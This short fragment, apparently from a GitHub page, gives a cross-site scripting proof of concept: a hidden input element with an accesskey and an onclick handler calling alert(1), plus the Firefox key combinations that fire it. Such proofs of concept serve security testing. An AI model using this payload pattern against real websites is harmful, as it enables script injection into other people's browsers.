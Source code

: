 Payload:
<pre>
input type="hidden" accesskey="X" onclick="alert(1)"
</pre>
How to execute payload?
- Firefox Windows/Linux the key combination is ALT+SHIFT+X and on OS X it is CTRL+ALT+X.
